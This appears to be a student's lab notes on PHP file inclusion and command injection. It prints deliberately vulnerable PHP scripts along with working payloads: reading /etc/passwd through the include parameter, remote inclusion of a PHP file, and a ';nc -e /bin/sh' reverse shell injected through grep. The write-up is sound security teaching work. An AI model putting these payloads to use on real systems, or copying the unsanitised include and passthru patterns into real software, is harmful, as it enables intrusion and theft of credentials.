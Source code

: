 ```yaml
---
layout: /src/layouts/MarkdownLayout.astro
---
```


# Week 2

## File Inclusion Testing w/ PHP Server
For the 2.2 class activity, we made a sample PHP script that lets you grab arbitrary system files, but shows how you could end up with this vulnerability while having the best intentions.

Here's index.php:
```php
<a href="index.php?page=page1.html"><button>page1</button></a><br/>
<a href="index.php?page=page2.html"><button>page2</button></a><br/>
<a href="index.php?page=page3.html"><button>page3</button></a><br/>
<?php
$page = $_GET['page'];
echo "<div>";
if(isset($page))
{
 
  include("$page");
}
else
{
  echo "<p>select a page</p>";
}
echo "</div>";
?>
```

As you can see, the purpose is to display other pages within the index, which is something a real developer might want to do, but you can also see that our developer has made no effort to stop you from just... putting other paths in it.

for example, if you went to `index.php?page=/etc/passwd`, you can view that file. If you're really lucky, and the web admin has made PHP and/or the web server run as `root`, you could probably even grab `/etc/shadow`

Then, for the second part of this activity, we grabbed `php.ini` from `/etc/php/cli`, and enabled `allow_url_include`, which then lets us do silly things like: `index.php?page=http://127.0.0.1:8000/rfi.php`, and then that PHP file gets pulled, and also executed!

In my case, I just made `rfi.php` execute `pwd && whoami`, but you could also be malicious, at least within whatever permissions PHP is running as (in this case, we were using `php -S`, so `rm`'ing anything would have nuked my own personal files :( )

Useful commands for this lab were:
* `php -S 127.0.0.1:9000` - serve PHP files in CWD on port 9000
* `php -S 127.0.0.1:9000 -c php.ini` - same thing but with a custom `php.ini` to disable what are, I feel, pretty sane defaults actually
* `python -m http.server 8000` - serve CWD files with HTTP on port 8000 (used to pretend that `rfi.php` was some remote script that I wrote, in order to test web content inclusion as discussed above) 


## Command Injection Testing w/ PHP Server
For the 2.3 class activity, we made a sample PHP script that has the intended function of searching `rockyou` for given sample passwords or phrases.
However, you can use it to run any command you want. Here's the source file `grepper.php`:
```php
<form id="logform" method="post">
  <div>
      Search Term: <input type="text" name="search">
  <div>
  <div class="full-width"></br>
      <button type="submit">Search</button>
  </div>
</form>

<?php
if(isset($_POST['search'])) {
  $searchterm=$_POST['search'];
  echo "<div>";
  echo "<h1>Searchterm:" . $searchterm . "</h1>";
  echo "</div>";

  echo "<pre>";
  passthru("cat /usr/share/wordlists/rockyou.txt | grep " . $searchterm);
  echo "</pre>";
}
?>
```

### Note: you have to unzip rockyou if you're on a base Kali VM, and you haven't before.
`sudo gz -d /usr/share/wordlists/rockyou.txt.gz`

The trick here is that there's no mechanism to stop you from appending other commands after the query term.
I even had success doing things like `;whoami`, which just makes grep exit immediately, and goes straight to running a command for you.

After seeing that I could just put the `;` in the front of whatever I wanted to run, and it even nicely formatted the output like a TTY would, I gave reverse shell a try, which was also easy.
The particular one that I tried was `;nc -e /bin/sh 127.0.0.1 1233`, and I had `nc -lvnp 1233` on my host.
I'm sure other ones would work, see my top-level reference sheet for a link to a page with many different ways to achieve this.

